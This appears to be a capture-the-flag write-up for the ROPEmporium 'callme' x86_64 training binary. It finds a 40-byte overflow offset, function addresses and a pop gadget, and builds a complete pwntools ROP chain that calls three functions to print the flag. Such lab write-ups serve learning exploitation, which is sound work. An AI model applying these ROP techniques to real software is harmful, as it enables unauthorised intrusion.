 Date: 21.02.2024

# **ROPEmporium - callme - x86_64**

## Gathering info

![alt text](p/checksec.png)

Bad news:
* NX is enabled, so it is not possible to execute own shellcode

Good news:
* There are no stack canaries and PIE is disabled

Binary is in x86_64 architecture.

## Running `callme`


![alt text](p/run.png)


Program is simple, it takes input from user, the image above shows that binary is vulnerable to buffer overflow. Since there is no possibility of executing own shellcode, ROP technique should be used. Let's take a look again at task description:

> You must call the callme_one(), callme_two() and callme_three() functions in that order, each with the arguments `0xdeadbeef`, `0xcafebabe`, `0xd00df00d` e.g. `callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)` to print the flag. For the x86_64 binary double up those values, e.g. `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`


So in vulnerable binary there are 3 functions that are needed to be called in our ROP chain. 


## Building ROP chain

### Finding offset

![alt text](p/offset.png)

`cyclic 100` is used to generate cyclic pattern which will be send into binary. After that step, we can calculate offset value by taking value stored in RBP.

![alt text](p/offset2.png)

Total offset value is 32+8=40. Here is initial exploit:

```python
from pwn import *

elf = ELF('callme')
p = process(elf.path)

offset = 40
overflow = b"A"*offset

payload = overflow
```

### Finding addresses of functions `callme_one`, etc.


![alt text](p/funcs.png)


* `callme_one = 0x400720` 
* `callme_two = 0x400740` 
* `callme_three = 0x4006f0` 


```python
from pwn import *

elf = ELF('callme')
p = process(elf.path)

offset = 40
overflow = b"A"*offset

callme1 = p64(0x400720)
callme2 = p64(0x400740)
callme3 = p64(0x4006f0)

payload = overflow
```

### Finding gadgets

![alt text](p/gadget1.png)

Due to calling convention in that binary the most suitable gadget is at address: `0x000000000040093c`.


#### For ubuntu users

Due to `MOVAPS` issue in Ubuntu machines there is need to add another gadget `ret`.

```
ROPgadget --binary ./callme | grep ret
...
0x00000000004006be :  ret
...
```

### Final exploit

```python
from pwn import *

elf = ELF('callme')
p = process(elf.path)

overflow = b"A"*40
gadget = p64(0x40093c)
gadget2 = p64(0x00000000004006be)
callme1 = p64(0x400720)
callme2 = p64(0x400740)
callme3 = p64(0x4006f0)
deadbeef = p64(0xdeadbeefdeadbeef) # required by task args
cafebabe = p64(0xcafebabecafebabe)
doodfood = p64(0xd00df00dd00df00d)
args = deadbeef + cafebabe + doodfood

payload = overflow + gadget + args + gadget2 + callme1 # gadget2 is necessary for Ubuntu users
payload += gadget + args + callme2
payload += gadget + args + callme3

p.sendline(payload)
response = p.recvall()
print(response.decode())
```


![alt text](p/flag.png)

